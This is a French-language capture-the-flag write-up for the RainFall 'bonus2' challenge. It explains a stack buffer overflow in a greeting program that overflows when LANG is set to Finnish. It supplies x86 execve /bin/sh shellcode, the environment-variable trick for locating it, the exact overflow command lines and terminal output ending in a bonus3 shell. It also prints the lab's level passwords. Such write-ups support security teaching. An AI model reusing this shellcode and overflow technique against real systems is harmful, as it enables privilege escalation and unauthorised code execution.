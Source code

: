 # Bonus2:

pass : `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`

## Sources :
```c
#include <string.h>
#include <stdlib.h>

int language = 0;

int		greetuser(char *name) {
	char str[72];  // ebp-0x48 == esp+0x10
	switch (language) {
		case 0:
			strcpy(str, "Hello ");
			break;
		case 1:
			strcpy(str, "Hyvää päivää ");
			break;
		case 2:
			strcpy(str, "Goedemiddag! ");
			break;
		default:
			break;
	}
	strcat(str, name);
	return (puts(str));
}

int		main(int ac, char **av) {
	char str[76];  // esp+0x50
	char *lang;  // esp+0x9c

	if (ac != 3)
		return 1;

	memset(str, '\0', 19);  // 0x13

	stpncpy(str, av[1], 40);  // 0x28
	strncpy(str + 40, av[2], 32);  // x020
	lang = getenv("LANG");
	if (*lang) {
		if (!memcmp(lang, "fi", 2)) {
			language = 1;
		} else {
			if (!memcmp(lang, "nl",2)) {
				language = 2;
			}
		}
	}
	return greetuser(str);
}
```

## Recherche :

On remarque que si on a lang == "fi" ou "nl", alors dans `greetuser`, la première partie de `str` sera plus longue et on va segfault.

Faisons alors `export LANG="fi"`

Maintenant, on voit que l'`EIP` est réécrite à partir de 16 caractères sur le second argument.
On doit aussi bien mettre 40 caractères pour le premièr argument afin que le second soit écrit.

On va maintenant procéder comme pour le `bonus0` en mettant un shellcode dans une variable qu'on va export, puis en indiquant cette adresse lors de l'écrasement de l'`EIP`

On va fait mettre notre shell code dans un `env` `EXPLOIT` :
```
export EXPLOIT="`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"`
```
Dans `/tmp`, on va créer un programme pour récupérer l'addresse :
bonus2@RainFall:/tmp$ cat getenv.c
```c
#include <stdio.h>
#include <stdlib.h>

int     main(int ac, char **av) {
        printf("%s is %p\n", av[1], getenv(av[1]));
        return 0;
}
```

`gcc getenv.c -o bonus2`

```
bonus2@RainFall:/tmp$ ./bonus2 EXPLOIT
EXPLOIT is 0xbffff918
```

En retournant dans le `~`, on va pouvoir executer notre programme en appelant notre shellcode :
```sh
bonus2@RainFall:~$ ./bonus2 $(perl -e 'print "A"x40') $(perl -e 'print "B"x18 . "\x18\xf9\xff\xbf"')
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB▒���
$ whoami
bonus3
```

On est bon !

## Exploit :

```shell
export LANG="fi"; export EXPLOIT="$(perl -e 'print "\x90"x50 . ""')

bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ export EXPLOIT="`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
bonus2@RainFall:~$ cd /tmp/
bonus2@RainFall:/tmp$ ./bonus2 EXPLOIT
EXPLOIT is 0xbffff918
bonus2@RainFall:/tmp$ cd -
/home/user/bonus2
bonus2@RainFall:~$ ./bonus2 $(perl -e 'print "A"x40') $(perl -e 'print "B"x18 . "\x18\xf9\xff\xbf"')
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB▒���
$ whoami
bonus3
$ cd ../bonus3
$ cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
